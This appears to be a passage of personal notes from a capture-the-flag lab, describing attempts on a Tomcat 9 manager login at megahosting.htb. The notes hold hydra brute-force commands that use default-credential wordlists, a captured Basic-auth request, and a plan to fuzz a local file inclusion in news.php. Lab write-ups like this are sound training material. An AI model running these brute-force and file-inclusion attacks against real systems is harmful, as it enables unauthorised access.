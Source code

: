 Let's try searching for some default credentials for tomcat9.

It looks like there is an interesting file in SecLists wuth tomcat stuff:
```
/home/lotape6/resources/hack/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
```
So let's capture the request and try some dictionary attack!
Trying AAAA BBBB we get the next request:
```
GET /manager/html HTTP/1.1
Host: megahosting.htb:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Authorization: Basic QUFBQTpCQkJC
```

If you decode `QUFBQTpCQkJC` in base64 you get `AAAA:BBBB`, so I will switch to the base64 wordlist then:
```
/home/lotape6/resources/hack/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist_base64encoded.txt
```

```
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

After some research this looks to be the appropriate command:
```
hydra -C /home/lotape6/resources/hack/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt "http-get://$(cat ip):8080/manager/html:A=BASIC"
```

Neither this nor:
```
hydra -C /home/lotape6/resources/hack/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt "http-get://$(cat ip):8080/host-manager/html:A=BASIC"
```
Found anything. Let's try other wordlists as well. Let's split the default admin users:
```
cat /home/lotape6/resources/hack/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt | xargs -I % sh -c "echo % | cut -d: -f1 >> users"
```

It's running `Tomcat 9 (9.0.31)` so let's check if it's vulnerable, since hydra didn't work.

Let's get back to the news.php where we have a LFI that we can exploit to go further. First I've tried to exit the `file` folder and include `index.php` and it does work encoded in url, so let's try some LFI with fuzzing:
```
/home/lotape6/resources/hack/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
```
